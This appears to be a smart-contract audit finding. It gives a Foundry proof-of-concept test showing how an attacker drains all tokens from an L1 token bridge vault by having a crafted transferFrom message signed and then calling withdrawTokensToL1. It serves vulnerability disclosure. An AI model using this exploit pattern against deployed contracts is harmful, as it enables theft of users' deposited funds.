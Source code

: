 - Paste the following test inside `test/L1TokenBridge.t.sol`
- Run with `forge test --mt test_t0x1cSimpleVaultCleaner -vv`

```js
    function test_t0x1cSimpleVaultCleaner() public {
        // Assume `vault` has some funds in it via deposits from other
        // users. We'll steal all funds in the attack.
        uint256 vaultInitialBalance = token.balanceOf(address(vault));
        deal(address(token), address(vault), 100 ether);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether);

        //==================================//
        //======= NORMAL USER FLOW =========//
        //==================================//
        vm.startPrank(user);
        uint256 depositAmount = 1 wei;
        uint256 userInitialBalance = token.balanceOf(address(user));
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether + depositAmount);
        assertEq(token.balanceOf(address(user)), userInitialBalance - depositAmount);
        //==================================//

        //==================================//
        //============= ATTACK =============//
        //==================================//
        // @audit-info : craft a `maliciousMessage` which has amount = vault's balance
        uint256 vaultBalance = token.balanceOf(address(vault));
        bytes memory maliciousMessage = abi.encode(
            address(token), // target
            0, // value
            abi.encodeCall(IERC20.transferFrom, (address(vault), user, vaultBalance)) // data
        );
        vm.stopPrank();

        // `operator` signs the message off-chain since `user` had deposited 1 wei earlier into the L2 bridge
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(maliciousMessage, operator.key);

        vm.startPrank(user);
        // @audit-info : call `withdrawTokensToL1()` with `maliciousMessage`
        tokenBridge.withdrawTokensToL1(user, vaultBalance, v, r, s);
        vm.stopPrank();

        assertEq(token.balanceOf(address(vault)), 0);
        assertEq(token.balanceOf(user), userInitialBalance - depositAmount + vaultBalance);
    }
```

## Impact
Attacker can steal all the funds from the vault.
